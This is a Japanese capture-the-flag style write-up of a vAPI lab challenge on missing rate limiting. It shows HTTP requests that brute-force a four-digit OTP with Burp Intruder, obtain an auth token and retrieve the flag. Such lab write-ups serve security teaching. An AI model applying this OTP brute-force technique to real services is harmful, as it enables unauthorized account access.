


# API4 Lack of Resources & Rate Limiting
多くの場合、APIはクライアントからの過剰なリクエストから自身を保護するようには構成されていない。  
攻撃者はこの欠陥を利用してDoSを実行したり認証メカニズムをバイパスするために多すぎる要求を悪用することがある。  

電話番号を使ったOTP認証を模したAPI。  
電話番号をリクエストすると「4桁のOTPを送ったよ」とメッセージが返ってくる。

```http
POST /vapi/api4/login HTTP/1.1
Content-Type: application/json
User-Agent: PostmanRuntime/7.29.0
Accept: */*
Postman-Token: c89ccf82-7486-4104-8cda-a0b2e332c178
Host: localhost
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 33

{
    "mobileno":"8000000535"
}
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Sat, 05 Mar 2022 13:44:18 GMT
Connection: close
X-Powered-By: PHP/7.4.7
Cache-Control: no-cache, private
Date: Sat, 05 Mar 2022 13:44:18 GMT
Content-Type: application/json

{"success":"true","msg":"4 Digit OTP sent on mobile no."}
```

OTPを受け取れる端末は持っていないので適当に9999を送ってみると、正しくないと言われる。
```http
POST /vapi/api4/otp/verify HTTP/1.1
Content-Type: application/json
User-Agent: PostmanRuntime/7.29.0
Accept: */*
Postman-Token: b025d670-72f2-4000-a95e-60d233d66e4b
Host: localhost
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 22

{
    "otp":"9999"
}
```
```http
HTTP/1.1 403 Forbidden
Host: localhost
Date: Sat, 05 Mar 2022 13:44:25 GMT
Connection: close
X-Powered-By: PHP/7.4.7
Cache-Control: no-cache, private
Date: Sat, 05 Mar 2022 13:44:25 GMT
Content-Type: application/json

{"success":"false","cause":"Invalid OTP"}
```

Intruderで0000から9999まで全部試してみる。




1872が当たりのようだ。
```http
POST /vapi/api4/otp/verify HTTP/1.1
Content-Type: application/json
User-Agent: PostmanRuntime/7.29.0
Accept: */*
Postman-Token: b025d670-72f2-4000-a95e-60d233d66e4b
Host: localhost
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 22

{
    "otp":"1872"
}
```

```http
HTTP/1.1 200 OK
Host: localhost
Date: Sat, 05 Mar 2022 13:51:05 GMT
Connection: close
X-Powered-By: PHP/7.4.7
Cache-Control: no-cache, private
Date: Sat, 05 Mar 2022 13:51:05 GMT
Content-Type: application/json

{"success":"true","key":"FZvjaFlMgUfnpFJDhKx-92xeXx_sCr7Y"}
```

認証後のGet Detailsを送るとFlagが返ってくる。
```http
GET /vapi/api4/user HTTP/1.1
Authorization-Token: FZvjaFlMgUfnpFJDhKx-92xeXx_sCr7Y
Content-Type: application/json
User-Agent: PostmanRuntime/7.29.0
Accept: */*
Postman-Token: 7d50ef2f-d394-436a-94eb-9048327aaefa
Host: localhost
Accept-Encoding: gzip, deflate
Connection: close

```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Sat, 05 Mar 2022 13:52:12 GMT
Connection: close
X-Powered-By: PHP/7.4.7
Cache-Control: no-cache, private
Date: Sat, 05 Mar 2022 13:52:12 GMT
Content-Type: application/json

[{"id":1,"firstname":"john","lastname":"flag{api4_ce696239323ea5b2d015}"}]
```
